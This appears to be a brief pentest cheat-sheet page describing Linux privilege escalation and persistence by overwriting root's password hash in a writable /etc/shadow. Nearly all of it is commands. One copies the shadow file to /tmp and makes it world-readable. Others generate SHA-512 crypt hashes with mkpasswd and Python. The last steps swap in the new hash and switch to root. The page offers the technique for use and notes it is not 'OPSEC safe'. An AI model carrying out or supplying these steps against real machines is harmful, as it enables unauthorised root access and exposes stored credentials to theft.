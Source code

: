 # Unix Shell

Nowadays most modern Linux servers and desktops currently are most up-to-date and I can say you'll rarely find it or not. Yet you can use this method as a persistence technique yet it's not OPSEC safe to do so but hey you'll might need it under certain circumstances.

- Backup the shadow file. To clear traces ahead of time.

`$ cp /etc/shadow /tmp/shadow.bak && sudo chmod o+r /etc/shadow`

## Exploit

### Overwrite Password via Hash Digest

#### Mkpasswd

`$ mkpasswd -m sha-512 newpass1234`

#### Python Crypt Module

`$ python -c 'import crypt; print(crypt.crypt("newpass1234", "$6$salt"))'`

Then edit the shadow file `root:<sha512crypt_hash>:17298:0:99999:7:::` replace the old `<sha512crypt_hash>` which starts with $6$ into a new one that was previously generated.

Then try to authenticate and you're root.

`$ su root`


---
## References

- [Linux Privesc Wrong Permissions](https://wixnic.github.io/linux-privesc-wrong-permissions/)

- [Linux Privilege Escalation Writable Passwd File](https://steflan-security.com/linux-privilege-escalation-writable-passwd-file/)